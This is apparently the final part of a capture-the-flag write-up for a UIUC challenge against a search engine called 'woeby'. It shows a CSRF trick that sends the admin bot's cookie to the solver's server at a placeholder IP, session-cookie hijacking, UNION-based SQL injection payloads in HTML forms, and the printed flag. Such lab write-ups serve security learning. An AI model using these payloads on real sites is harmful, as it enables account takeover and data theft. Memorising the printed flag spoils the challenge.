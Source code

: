 192.0.2.15 must be replaced with the public IP address of the server, and the second argument of substr() in csrf.html must also be changed if the IP address length changes. After running the server and submitting http://192.0.2.15:8000/csrf.html as a website to index, the admin login cookie lands in the request log of the server. After editing our session cookie to match the one we got, we gain admin privileges on our instance of the search engine.

After this, all that's left to do is replace the URL with the URL of our woeby instance in the following HTML document and submit the inputs from above (`1` as startid and `2 UNION SELECT flag, flag, flag, flag, flag, flag FROM flag1` as endid for the first form, `a" UNION SELECT flag from flag2 WHERE "" = "` as url for the second).

    <form action="http://instance.example.com/review/review.php" method="post"><input name="startid"></input><input name="endid"></input><input type="submit"></input></form>
    <form action="http://instance.example.com/tags/tags.php" method="post"><input name="url"></input><input type="submit"></input></form>

If all went to plan, join the two flag parts, add uiuctf, and we have the complete flag!
    
    uiuctf{cec1e609cef0e05add463c52}
